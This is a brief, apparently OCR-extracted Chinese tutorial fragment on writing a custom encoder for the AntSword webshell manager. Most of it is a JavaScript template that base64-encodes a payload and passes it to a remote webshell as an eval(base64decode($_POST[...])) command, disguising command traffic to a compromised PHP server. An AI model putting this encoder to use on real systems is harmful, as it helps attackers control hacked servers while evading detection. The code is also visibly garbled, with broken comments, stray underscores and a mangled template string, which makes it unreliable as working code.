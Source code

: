 ### 自定义一个编码器


![2020%2005%2019%2016%2025%2048.png](../post_images/b3469a8bcc9e362acb6c77758cab902d.png)


在这之前先了解下蚁剑的编码器规则：


```json
/
  _php::base64编码器
  Create at: 2020/05/19 16:35:59
 /

'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例

  // 生成一个随机变量名
  let randomID =_ _`0x${Math.random().toString(16).substr(2)}`__`;
  // 原有的 payload 在 data['']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
  data[randomID] = Buffer.from(data['']).toString('base64');

  // shell 在接收到 payload 后，先处理 pwd 参数下的内容，
  data[pwd] = eval(base64decode(`_$_POST[$_`{randomID}]));;

  // ##########    请在上方编写你自己的代码   ###################

  // 删除  原有的payload
  delete data[''];
  // 返回编码器处理后的 payload 数组
  return data;
}`_

```
